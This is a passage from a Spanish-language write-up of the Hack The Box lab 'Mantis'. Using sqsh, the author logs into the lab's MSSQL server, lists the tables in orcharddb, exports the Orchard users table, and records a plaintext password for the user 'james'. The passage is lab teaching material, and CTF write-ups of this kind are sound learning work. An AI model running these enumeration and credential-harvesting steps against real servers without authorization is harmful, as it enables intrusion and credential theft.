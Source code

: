 ```bash
❯ sqsh -U 'admin' -S 10.10.10.52
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
Password: 
1> 
```

Estamos dentro del SQL Server. Primeramente, vamos a listar las tablas alojadas en la base de datos que identificamos *orcharddb*:

```bash
1> SELECT TABLE_NAME from orcharddb.INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE';
2> go -m csv > output.csv
1>
```

Con el comando `go -m csv > output.csv` nos exportamos la información a nuestro directorio de trabajo, esto es para tener la información de una forma más cómoda ya que el sin esto, la manera en como presenta el servidor la información es muy fea. En dicho archivo, vemos dos tablas que tienen la palabra **user**:

```bash
❯ cat output.csv | grep -i "user"
"blog_Orchard_Users_UserPartRecord"
"blog_Orchard_Roles_UserRolesPartRecord"
```

A este punto, vamos a listar el contenido de la tabla `blog_Orchard_Users_UserPartRecord`. (Nota: Para visualizar la información en un formato decente, vamos a exportar la información en formato html y la veremos en nuestro navegador en la dirección *localhost*):

```bash
1> USE orcharddb;
2> SELECT * FROM blog_Orchard_Users_UserPartRecord;
3> go -m html > index.html
1>
```

```bash
❯ cp index.html /var/www/html/.
❯ service apache2 start
```

![""](/assets/images/htb-mantis/mantis_db.png)

Como se puede observar en los resultados obtenidos, tenemos el usuario **admin** y el usuario **james**, quien tiene una contraseña en texto claro; asi que nos guardamos las credenciales.
